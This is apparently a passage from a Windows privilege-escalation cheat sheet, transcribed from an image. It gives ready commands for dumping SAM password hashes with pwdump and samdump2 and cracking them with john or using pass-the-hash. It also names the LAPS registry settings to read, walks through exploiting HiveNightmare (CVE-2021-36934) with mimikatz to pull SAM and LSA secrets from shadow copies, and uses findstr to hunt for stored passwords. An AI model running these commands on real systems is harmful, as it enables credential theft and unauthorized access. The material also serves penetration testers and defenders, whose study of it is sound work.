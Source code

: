 ```powershell
pwdump SYSTEM SAM > /root/sam.txt
samdump2 SYSTEM SAM -o sam.txt
```

Either crack it with `john -format=NT /root/sam.txt` or use Pass-The-Hash.

### LAPS Settings

Extract `HKLM\Software\Policies\Microsoft Services\AdmPwd` from Windows Registry.

* LAPS Enabled: AdmPwdEnabled
* LAPS Admin Account Name: AdminAccountName
* LAPS Password Complexity: PasswordComplexity
* LAPS Password Length: PasswordLength
* LAPS Expiration Protection Enabled: PwdExpirationProtectionEnabled

### HiveNightmare

> CVE-2021–36934 allows you to retrieve all registry hives (SAM,SECURITY,SYSTEM) in Windows 10 and 11 as a non-administrator user

Check for the vulnerability using `icacls`

```powershell
C:\Windows\System32> icacls config\SAM
config\SAM BUILTIN\Administrators:(I)(F)
           NT AUTHORITY\SYSTEM:(I)(F)
           BUILTIN\Users:(I)(RX)    <-- this is wrong - regular users should not have read access!
```

Then exploit the CVE by requesting the shadowcopies on the filesystem and reading the hives from it.

```powershell
mimikatz> token::whoami /full

# List shadow copies available
mimikatz> misc::shadowcopies

# Extract account from SAM databases
mimikatz> lsadump::sam /system:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM /sam:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SAM

# Extract secrets from SECURITY
mimikatz> lsadump::secrets /system:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM /security:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY
```


### Search for file contents

```powershell
cd C:\ & findstr /SI /M "password" *.xml *.ini *.txt
findstr /si password *.xml *.ini *.txt *.config
findstr /spin "password" *.*
```
